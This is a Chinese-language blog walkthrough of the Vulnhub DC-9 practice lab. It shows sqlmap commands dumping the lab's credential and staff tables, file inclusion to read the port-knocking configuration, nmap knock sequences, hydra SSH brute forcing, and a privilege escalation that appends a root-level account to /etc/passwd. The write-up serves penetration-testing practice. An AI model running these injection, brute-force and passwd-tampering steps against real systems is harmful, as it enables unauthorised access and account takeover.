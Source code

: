 ```yaml
---
title: DC-9
---
```

# DC-9

# 描述

> DC-9是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

# 信息收集

确定目标的ip以及开启的端口

![image-20221201165354852](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165354852.png)

发现有一个完整的表单，那就直接sqlmap爆破数据库

![image-20221201165637107](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165637107.png)

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" --dbs
```

爆出三个库

![image-20221201165842274](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201165842274.png)

爆破表

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users --tables
```

![image-20221201170044666](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170044666.png)

爆破列

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users -T UserDetails --dump
```

```mysql
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

同理爆破另一个库，其中的一个库的**Users**表爆出了admin的密码

![image-20221201170903369](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170903369.png)

**StaffDetails**表的内容

```mysql
Database: Staff
Table: StaffDetails
[17 entries]
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
```

# 登录后台

![image-20221201170938946](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201170938946.png)

脚标处有一句 `File does not exist `，判断是不是存在本地文件包含漏洞

验证存在

![image-20221201171921652](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201171921652.png)

然后要利用到端口敲门：

原理简单分析：
端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
　　
简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

![image-20221201172310863](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201172310863.png)

```bash
nmap -p 7469 192.168.71.131
nmap -p 8475 192.168.71.131
nmap -p 9842 192.168.71.131
```

执行完以上命令后再查看22端口的ssh服务，就看到是已经打开了

```bash
nmap -p 22 192.168.71.131
```

![image-20221201172545368](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201172545368.png)

利用前面信息收集到的员工账号密码做一个字典，然后进行爆破

# ssh登录

```bash
hydra -L dc9_users.txt -P dc9_pass.txt 192.168.71.131 ssh
```

![image-20221201173634705](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201173634705.png)

爆破出三个账号密码，随便一个账号登录上去，发现我们现在只是爆破出了部分账户而已

![image-20221201174103178](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174103178.png)

利用su命令切换我们爆破出的用户，发现在janitor的目录下有一个文件夹里记录了其他用户的密码

![image-20221201174344319](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174344319.png)

那我们直接加到我们的密码本里，再爆破一次，果然爆出了一个新的

![image-20221201174707763](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174707763.png)

登录到fredf，发现可以执行 `sudo -l`可以看到该账号可以运行root权限的test文件，而且不需要密码

![image-20221201174840644](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201174840644.png)

然后找到了这个文件的源码

![image-20221201175410975](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201175410975.png)

经过查看发现这个py文件的大致内容就是将参数1的内容写入参数2中，接下来尝试进行提权

# 提权

```bash
openssl passwd -1 -salt admin 111111
echo 'admin:$1$admin$2WRLhTGcIMgZ7OhwCpREK1:0:0::/root:/bin/bash' >> /tmp/aaa
sudo /opt/devstuff/dist/test/test /tmp/aaa /etc/passwd
su admin
cd /root
cat theflag.txt 
```

![image-20221201180059726](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201180059726.png)

- [参考博客]([(19条消息)) vulnhub靶机DC-9渗透测试_Long_gone的博客-CSDN博客](https://blog.csdn.net/Long_gone/article/details/104049869?ops_request_misc=%7B%22request%5Fid%22%3A%22166988492316782412557232%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=166988492316782412557232&biz_id=0&spm=1018.2226.3001.4187))
